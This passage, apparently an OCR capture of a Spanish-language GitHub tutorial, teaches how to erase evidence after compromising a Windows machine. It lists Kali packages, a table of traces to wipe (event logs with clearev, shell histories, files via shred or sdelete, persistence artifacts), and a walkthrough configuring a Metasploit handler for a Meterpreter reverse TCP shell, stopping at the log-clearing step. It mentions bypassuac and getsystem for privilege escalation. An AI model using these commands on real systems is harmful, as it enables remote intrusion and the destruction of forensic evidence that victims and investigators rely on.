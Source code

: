 #### En Kali Linux:

```bash
sudo apt update
sudo apt install metasploit-framework netcat
```

También puedes usar:

- `meterpreter` (desde Metasploit)
- `clearev` (comando para borrar logs)
- `bypassuac`, `getsystem` (para privilegios antes de borrar)

---

### 🔍 Tipos de evidencias que se pueden borrar

| Evidencia                       | Herramienta / Acción                  |
| ------------------------------- | ------------------------------------- |
| Logs del sistema (event logs)   | `clearev` (Meterpreter)               |
| Comandos ejecutados (historial) | `.bash_history`, PowerShell history   |
| Archivos residuales             | `rm`, `sdelete`, `shred`              |
| Persistencia creada             | Eliminar registros, servicios, claves |
| Conexiones en memoria           | Finalizar procesos                    |

---

### ✅ Caso práctico: Uso de `Meterpreter` para borrar evidencias

#### 1. Obtener acceso Meterpreter

(Suponiendo que ya has enviado un payload con `msfvenom`)

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.100.5
set LPORT 4444
exploit
```

#### 2. Verificar que tienes la sesión

```bash
sessions
sessions -i 1
```

---

#### 3. Borrar logs del sistema con `clearev`
